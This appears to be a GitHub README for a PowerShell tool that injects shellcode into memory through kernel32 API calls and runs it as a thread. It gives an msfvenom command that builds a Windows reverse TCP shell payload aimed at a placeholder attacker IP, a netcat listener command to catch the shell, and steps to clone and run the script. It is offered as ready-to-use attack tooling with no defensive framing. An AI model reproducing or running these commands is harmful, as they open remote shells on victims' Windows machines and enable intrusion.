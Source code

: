 # PowerShell Shellcode Injector

## Description
This project provides a PowerShell script that uses Windows API functions to inject shellcode into memory and execute it as a separate thread in the system. The script utilizes functions from `kernel32.dll` to allocate memory, create a thread, and wait for the result.


## Create ShellCode
- Change the line 37.
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp lhost=YOUR_IP lport=PORT -f powershell
  nc -lvnp YOURPORT
  

## Features
- Allocates memory using `VirtualAlloc`.
- Creates a new thread to execute the shellcode.
- Uses the `WaitForSingleObject` API to wait for the thread to finish execution.

## Installation and Usage
### Requirements
- PowerShell 5.1 or higher.
- Administrator privileges on the machine to allocate memory and create threads.

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/thangcongtran/Reverse-Shell-Powershell.git
   cd Reverse-Shell-Powershell
   .\Reverse-Shell-Powershell.ps1
